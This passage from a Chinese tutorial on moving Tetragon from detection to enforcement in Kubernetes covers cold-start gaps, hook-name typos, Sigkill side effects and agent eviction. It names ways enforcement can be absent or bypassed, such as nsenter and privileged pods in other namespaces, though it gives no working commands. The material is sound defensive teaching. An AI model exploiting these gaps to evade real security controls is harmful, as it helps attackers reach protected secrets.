等三十秒就 panic 退出，退出前的日誌印出 0 received，表示 BPF 程式還沒掛上。這段缺口約 31 秒。DaemonSet 重啟它，第二次成功。在偵測情境這只是漏看；在攔截情境，這是一段沒有任何攔截的攻擊窗口，因為攔截策略在 agent 起來之前不存在，而節點上的工作負載跟 agent 一起排程、不會等它。這條路上沒有一個指標會抱怨：DaemonSet 是 3/3、pod 是 Running,RESTARTS 那個數字是唯一的線索，而它過一天就會被當成正常。
修法：以攔截為前提部署時，冷啟動後要確認 RESTARTS，以及 agent 日誌裡有沒有 Loading sensor name=__base__——在那之前掛任何攔截策略都是空的。
掛勾名稱打錯字，只有 agent 知道¶
症狀:call 少打一個字母（步驟 1 的反例），kubectl apply 成功、物件存在、status 不存在、describe 的事件是空的，而三顆節點的 agent 全部 LOAD_ERROR。
原因:call 的合法值是「這顆核心當下有哪些符號」，是執行期的性質，API server 沒辦法檢查。錯誤只出現在 agent 日誌裡：
level=warn msg="adding tracing policy failed"
error="… validation error: call \"security_file_permision\": not found"
修法：以 agent 回報的 state 判斷策略是否生效，並先對一條故意壞掉的策略跑過一次，確認檢查會報錯。
Sigkill 會帶走行程既有的、跟違規無關的連線¶
違規行程在讀機密之前就已經開好一條到另一顆 pod 的 TCP 連線。Sigkill 生效後，接收端記到的是一筆 0 位元組的連線——那條 socket 被一起結束掉。同一條策略換成 Override，行程活著收到 EPERM，用同一條 socket 把自己的錯誤回報送了出去（59 位元組）。
真實工作負載裡，那條「無關的連線」可能是進行到一半的交易、還沒寫出的緩衝區、或別的使用者的請求。選 Sigkill 還是 Override，實際上是在選要付哪一種代價：Sigkill 乾淨俐落但波及整個行程，Override 範圍精準但核心記憶體高得多。
agent 是 BestEffort，現在身上掛著會殺行程的策略¶
Day 5 提過 chart 的 agent 容器沒有設 resources、也沒有 priorityClassName，所以是 BestEffort、priority 0，節點記憶體吃緊時會最先被驅逐。
chart 預設 enableKeepSensorsOnExit: false：agent 被驅逐時會卸載 BPF 程式。在攔截情境下，這代表 DaemonSet 把 agent 重新排回來之前，這顆節點上沒有任何攔截。修法：以攔截為前提部署 Tetragon 時，替 agent 補上 resources 與 priorityClassName，降低被驅逐的機會（本課沒有實測這個修法）。
想一想¶
- 一條攔截策略
kubectl apply回報成功、kubectl get也列得出來，但你不確定它在不在核心裡。你會用什麼判斷它真的生效了？ - 你想攔住一支程式寫檔案的動作，確保寫不進去。為什麼只把
Sigkill掛在操作前仍不足以保證？官方建議併用哪個動作？ - 一個命名空間套了 exec 允許清單，攔截測試也通過了。什麼樣的 pod 可以在完全不觸發攔截事件的情況下，讀到這個命名空間裡的檔案？
小結¶
把 Tetragon 從偵測切到攔截，要同時確認 agent 回報的 state、mode、呼叫端結果與接收端資料。本例在 security_file_permission 上未觀察到機密外流，但不能把結果推成 Sigkill 的一般保證；需要阻止操作完成時，官方建議併用 Signal 與 Override，本課尚未驗證這種組合。命名空間策略依呼叫端的 cgroup 決定範圍，其他命名空間的特權 Pod 仍可能存取目標檔案。寫錯允許清單時，Kubernetes 健康指標也可能維持正常，必須對照應用資料與 Tetragon 攔截事件。
延伸閱讀¶
想再深入，可以從這幾份開始：
- Tetragon 的強制執行機制 —— 官方對覆寫回傳值與訊號兩種做法的說明，包含那句「SIGKILL 不保證阻止操作」的警告與「Signal 配 Override」的建議，是步驟 3 必須並讀的一手來源。
- 選擇器與動作的完整語法 ——
matchActions可用的動作、各種運算子，以及同一選擇器內 AND、跨選擇器 OR 的組合規則。 - TracingPolicy 的概念與組成 —— 掛勾點加核心內過濾這個結構的官方說明，寫任何策略之前的基礎。
- Tetragon Helm chart 參數表 —— 疑難排解最後一項的一手來源：agent 容器的
resources預設是空的。
下一步¶
Falco 與 Tetragon 這一段到此為止：兩套工具都裝過、規則與策略都自己寫過、偵測與攔截的代價都算過。它們共同的視角是行程與檔案——誰執行了什麼、誰開了哪個檔。
而今天有兩個發現指向同一個方向。nsenter 繞過攔截那一格，真正的修補位置在 admission 層；而這幾天所有跟網路有關的東西——被 Sigkill 一起帶走的那條 TCP 連線、Falco 那條「沒連過的位址」自訂規則——都是從行程的角度看到的網路，不是從網路本身。
Day 7 換一個角度：把觀測與管制放進網路層，而第一步是把 Kubernetes 的 Service 實作整個換掉。
Tetragon 標誌為 Tetragon 專案之官方資產,此處作社群教學用途。